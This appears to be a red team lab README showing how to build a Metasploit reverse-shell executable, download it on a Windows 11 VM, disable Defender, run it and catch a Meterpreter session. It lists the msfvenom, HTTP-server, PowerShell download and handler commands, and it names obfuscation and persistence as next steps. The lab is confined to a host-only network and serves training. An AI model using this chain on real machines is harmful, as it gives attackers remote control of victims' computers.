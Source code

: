 # 🧪 Red Team Lab 1: REMCOS Reverse Shell via Executable Delivery

This lab demonstrates a basic but effective red team exercise: delivering a raw Metasploit-generated .exe payload to a Windows 11 VM and catching a reverse Meterpreter shell using Kali Linux. This is a foundational training scenario focused on payload generation, listener setup, and reverse shell execution in a controlled virtual lab.

🖥️ Lab Setup

Host OS

Windows 11 (Pro)

Attacker Machine

Kali Linux (VirtualBox, Host-Only Network)

Network Type

Host-Only Adapter on both VMs

⚙️ Step-by-Step Instructions

## 1. Generate Payload on Kali

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f exe -o remcos_clone.exe

## 2. Host the Payload via Python Server

python3 -m http.server 8000

## 3. On Windows VM: Download the Payload

Invoke-WebRequest -Uri http://192.168.56.101:8000/remcos_clone.exe -OutFile remcos_clone.exe

## 4. Disable Defender + Run Payload

Turn off Microsoft Defender Real-Time Protection

Right-click remcos_clone.exe > Run as Administrator

## 5. Start Listener on Kali

msfconsole

Then in the console:

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
run

✅ You should see:

[*] Started reverse TCP handler on 192.168.56.101:4444
[*] Meterpreter session 1 opened

## 📸 Screenshot Checklist

Kali IP Config – ip a showing 192.168.56.101

Payload Generation Output – full msfvenom result

Python HTTP Server Running – terminal showing Serving HTTP on 0.0.0.0 port 8000

Windows IPConfig – ipconfig output

PowerShell File Download – full PowerShell window

Defender Disabled – screenshot of Defender UI toggled off

File Explorer showing .exe – remcos_clone.exe on Desktop

Metasploit Listener Output – session opened message

✅ Next Phase Ideas

Re-delivery using HTA or macro Word doc

Obfuscation with Veil or msbuild

Persistence + privilege escalation

